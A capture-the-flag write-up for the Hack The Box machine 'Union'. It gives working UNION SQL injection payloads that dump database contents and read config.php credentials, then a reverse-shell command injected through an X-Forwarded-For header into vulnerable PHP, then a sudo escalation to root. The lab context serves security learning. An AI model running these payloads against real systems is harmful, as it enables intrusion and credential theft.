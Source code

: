 ```yaml
---
title: "HTB Union"
permalink: /writeups/union
location: default
---
```


# HTB Union

**Machine Information**

	IP : 10.10.11.128
	OS : Linux

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`. 

```
rustscan -a 10.10.11.128 -- -sC -sV
```

This should only reveal one open port: `80`.

```
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Getting a Foothold

**Directory Scan**

Check for directories by running `dirsearch`.

```
dirsearch -u http://10.10.11.128
```

This will reveal a `/config.php` file but we are unable to access it at the moment.

```
[20:38:34] 200 -    0B  - /config.php
```

**Manual Enumeration**

If we go to the main page we will be greeted with a "Player Eligibility Check" input.

<http://10.10.11.128/>

If we enter the following string `' -- -` it is returned in the response.

```
Congratulations ' -- - you may compete in this tournament!
```

This indicates that it may be vulnerable to SQL injection. If we click the link that appears it will head to the following endpoint:

<http://10.10.11.128/challenge.php>

The form asks for the "The First Flag" so we will need to come back later.

**SQL Injection**

Given that the machine is called UNION that is a big hint so we can try a UNION command.

```
' union select schema_name from information_schema.schemata-- -
```

This returns a new different error message. It also selects `mysql` as the player name in the response.

> Sorry, mysql you are not eligible due to already qualifying.

We can modify this command slightly to return the rest of the tables.

```
' union select group_concat(schema_name) from information_schema.schemata-- -
```

The response shows five tables including `mysql`, `information_schema`, `performance_schema`, `sys`, and `november`.

> Sorry, mysql,information_schema,performance_schema,sys,november you are not eligible due to already qualifying.

From the output the only non-standard table is `november` so we can start there. We can modify the payload to retrieve the table and column names.

```
' union select group_concat(table_name,column_name) from information_schema.columns where table_schema like 'november'-- -
```

The output is a bit messy but it should be `flag:one` and `players:player`.

> Sorry, flagone,playersplayer you are not eligible due to already qualifying.

If we modify the SQL injection payload to the following it should dump the flag table.

```
' union select one from november.flag-- -
```

This will reveal a flag. Head back the challenge page that was asking for a flag to be submitted.

<http://10.10.11.128/challenge.php>

After submitting the flag we get the following message indicating we have SSH access now:

> Welcome Back!
> 
> Your IP Address has now been granted SSH Access.

**Dump Credentials**

We can confirm this with a port scan.

```
nmap -p 22 10.10.11.128
```

Port 22 is now open but we do not have credentials yet.

```
PORT   STATE SERVICE
22/tcp open  ssh
```

We can take a look at the `config.php` we found earlier to see if we can access it using our SQL injection vulnerability. Modify the payload to the following:

```
' union select load_file('/var/www/html/config.php') -- -
```

This won't be displayed on the web page but if we check the request in Burp Suite it reveals credentials for the user `uhc`.

**SSH**

We can try to login with the credentials from the `config.php` file.

```
ssh uhc@10.10.11.128
```

Success! Grab the user flag from the following directory:

```
/home/uhc/user.txt
```

### Privilege Escalation

Inspecting the `firewall.php` page that was used to whitelist our IP address contains a block of vulnerable code that can be exploited.

```php
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>
```

We can exploit this by adding an additional header to our web request. Inspect the request to `firewall.php` in Burp Suite and add the following header:

```
X-FORWARDED-FOR: ;bash -c "bash -i >& /dev/tcp/10.10.14.4/9001 0>&1";
```

Start a new `netcat` listener and send the request to get a reverse shell. Success!

```
www-data@union:~/html$ whoami
www-data
```

Check the users `sudo` privileges with `sudo -l` to see that they can run any `sudo` command without a password.

```
(ALL : ALL) NOPASSWD: ALL
```

Switch to the root user.

```
sudo su - root
```

The flag can be found in the following directory:

```
/root/root.txt
```
